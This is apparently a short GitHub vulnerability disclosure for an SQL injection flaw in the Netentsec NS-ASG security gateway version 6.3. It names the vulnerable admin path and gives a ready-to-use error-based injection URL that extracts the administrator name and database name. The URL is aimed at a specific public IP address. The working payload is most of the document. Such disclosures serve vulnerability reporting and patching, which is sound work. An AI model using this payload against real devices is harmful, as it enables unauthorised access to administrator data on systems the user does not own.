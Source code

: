 Beijing Wangkang Technology Co., Ltd. is a leading provider of network application management equipment in China, focusing on the latest trend research and analysis in the field of network application management. It provides users with advanced network application management technology, products, and solutions, aiming to help users achieve the goal of "using the internet well" in network management.

There is an SQL injection vulnerability in the Netcom NS-ASG application security gateway. Attackers exploit vulnerabilities to cause harm to servers.

official： https://www.netentsec.com/

version:6.3

Vulnerability Path ： /admin/config_ISCGroupNoCache.php

```
https://1.85.53.53/admin/config_ISCGroupNoCache.php?GroupId=1%20and%20extractvalue(0x1,%20concat(0x1,%20(select%20concat(adminname,%200x7e,%20database())%20from%20Admin%20limit%201)))
```
<img width="542" alt="image" src="https://github.com/flyyue2001/cve/assets/88701694/47b8b632-26ec-4d9a-b31e-f9e9400dfbfa">

